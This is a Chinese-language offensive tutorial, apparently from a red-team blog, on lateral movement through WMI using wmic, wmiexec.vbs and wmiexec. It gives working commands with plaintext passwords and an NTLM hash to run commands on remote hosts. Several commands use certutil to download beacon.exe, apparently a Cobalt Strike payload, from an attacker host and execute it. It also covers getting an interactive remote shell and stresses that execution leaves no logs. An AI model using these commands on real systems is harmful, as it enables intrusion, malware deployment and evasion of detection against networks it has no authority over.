 WMI是通过135端口进行利用，支持明文用户密码或者hash的方式认证，并且该方法不会在目标日志系统留下痕迹。使用wmic远程执行命令，在远程系统中启动windows management lnstrumentation 服务（目标服务器需要开放135端口，wmic会以管理员权限在远程系统中执行命令）。如果目标服务器开启了防火墙，wmic将无法进行连接。wmic命令没有回显，需要使用ipc$和type命令来读取信息，若使用wmic执行恶意程序，将不会留下日志。
利用前提和注意事项：
1、目标防火墙已事先允许135、445端口连入，且本地杀软、EDR未拦截wmic.exe,cmd.exe等执行；
2、有些域账户只允许在指定的域内机器上才可登录，所以如果发现账密是对的，却会提示 “拒绝访问” ；
3、出现提示”无效句柄” 之类的错误，可尝试把目标ip换成机器名或者把机器名换成ip，ip或机器名用双引号包起来；
4、当提示 “RPC服务器不可用”时，有可能是目标防火墙导致135端口不通，或者目标系统没开135端口，要么就是被对方杀软或EDR拦截。

1.wmic

无需上传第三方软件，利用系统内置程序，执行过程中有单模式执行和交互式执行
可以只执行命令，或者反弹shell
单命令执行，执行后无结果回显，可以将木马上传到该内网web目录下，然后调用文件
下载命令上线cs：
Default
wmic /node:192.168.3.32 /user:administrator /password:admin!@#45 process call create "cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/beacon.exe c:/beacon.exe"
wmic /node:192.168.3.32 /user:administrator /password:admin!@#45 process call create "cmd.exe c:/beacon.exe"

也可以使用目标系统的cmd.exe执行一条命令，将执行结果保存在C盘的ip.txt文件中，
Default
wmic /node:192.168.1.3 /user:administrator /password:Admin!@#$4321 process call create "cmd.exe /c ipconfig >c:\ip.txt"

建立ipc$后，使用type命令读取执行结果：
Default
net use \\192.168.1.3\ipc$ "Admin!@#$4321" /user:administrator
type \\192.168.1.3\C$\ip.txt

2.cscript

利用系统内置命令，可获取交互式shell
（无法在cs中使用，因运行成功后会一直进行反弹连接，导致卡bug）
需上传wmiexec.vbs然后进入该服务器内进行执行。
Wmiexec.vbs脚本通过VBS调用WMI来模拟PsExec功能。wmiexec.vbs可以在远程系统中执行命令并进行回显，获得远程主机的半交互式shell
Default
cscript //nologo wmiexec.vbs /shell 10.211.55.10 administrator admin!@#45

缺点：wmic和cscript都无法进行hash传递

3.wmiexec

第三方软件 (交互式&单执行)
无法在cs中执行后回显
Default
wmiexec ./administrator:admin!@#45@10.211.55.10 "whoami"
wmiexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@10.211.55.10 "whoami"
可利用文件下载命令上线cs：
Default
wmiexec ./administrator:admin!@#45@10.211.55.10 "cmd.exe /c certutil -urlcache -split -f http://10.211.55.7/beacon.exe c:/beacon.exe"
wmiexec ./administrator:admin!@#45@10.211.55.10 "cmd.exe /c c:/beacon.exe"

缺点：第三方软件会被杀软查杀
